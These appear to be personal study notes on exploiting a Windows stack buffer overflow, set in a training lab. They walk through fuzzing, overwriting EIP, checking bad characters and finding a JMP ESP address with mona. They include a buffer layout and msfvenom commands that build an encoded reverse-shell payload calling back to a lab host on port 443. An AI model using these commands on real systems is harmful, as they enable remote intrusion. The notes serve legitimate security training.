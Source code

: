 Main ways of identifying flaws in applications:

1. If source code is available , then source code review 
2. If application is close sourced, then reverse engineering
3. Fuzzing to find bugs

**Fuzzing :**

Fuzzing involves sending malformed data into application input and watching for  
 unexpected crashes.

An unexpected crash indicates that the application might not filter certain input correctly. This could lead to discovering an exploitable vulnerability

buffer = A\*2606 + &lt;Bufffer Overflow / EIP Address&gt; + shell code + "C" \* \(3500 -2606 -4 -351\)

**Steps:**

1. **Fuzzing and crash replication**
   1. Create a fuzzing script and find the exact location whr the crash occurs.\(Attach process 2 debugger & enable the putty\)
   2. Once debugger is attached pauses the process , press the play button to allow debugger to release the process and run normally
   3. run the fuzzer prog , at one point debugger pauses and allow use to analyze
   4. F2 to set the breakpoint
   5. Recreate the crash with the modified script and run it
   6. find the register values \( ESP and EIP\) after the pause of debugger
2. **Controlling the EIP** \(controls execution flow of the prog\)
   1. Locate the EIP position in our buffer
   2. Ruby Pattern creator tool - to create the unique buffer strings
   3. we could figure out unique four bytes in our buffer
   4. pattern-offset : gives position of the four unique bytes
   5. Now we replace the value with the user controlled bytes 
   6. Control the execution flow of the application , by changing the specific \(EIP\) Bytes
3. **ShellCode **\(User entered code\)
   1. once the shellcode is in memory we can redirect the execution of the application to this shell code
   2. we need to increase the size of the buffer in order to accommodate the shellcode \(3500\)
   3. ESP would be the best address to insert the shellcode , as it is easy to access the address
   4. Shellcode payload generator : 
4. **Bad Character**

   1. certain character are considered bad , should not be used in the buffer , return address, shellcode  ex: NOP, \r etc

   2. add all combinations of HEX character combinations to buffer

   3. Buffer = A + B + bad characters

   4. run and check whether any issue wt

5. **Redirecting Execution flow** :

   1. we found the location for our shellcode in the memory location tht is easily accessible by ESP Register

   2. we Control the EIP Register

   3. We figured wht characters are allowed in the buffer

   4. Now to redirect the execution to shellcode at the time of the crash

   5. to get tht we need to get the address of the ESP instead of B's to EIP.

   6. We need to find more generic way to find the ESP Address at the time of crash

   7. Application at run time loads certain libraries , dlls , drivers etc we can look at those to find instruction like \( Jmp ESP \)

6. **Mona \( third party debugger \)**

   1. !mona modules

   2. choose module : no Memory protection \(DEP, ASLR\) , no bad characters

   3. nasm\_shell script -- prints the opcode of any instruction

   4. mona module can search for any opcode in given memory range

   5. !mona find -s "\xff\xe4" -m slmfc.dll   --- &gt; given address has this instruction

   6. now we can use this address to make EIP point to ESP at runtime

   7. modify in skeleton exploit , replace B's with the obtained address and set the breakpoint \(F2\) in debugger also run regular by F7

7. **Shellcode payload generator**

   1. msfvenom -p windows/shell_reverse\_tcp LHOST=10.11.0.196 LPORT=443 -f c -a x86 --platform windows _
   2. lot of bad characters in the shellcode so we need to encode.
   3. add the bad character list to no allow 
   4. msfvenom -p windows/shell\_reverse\_tcp  LHOST=10.11.0.196 LPORT=443 -f c -e x86/shikata ga nai -b "\x00\x0a\x0d"   
   5. bad character not sent over the wire 



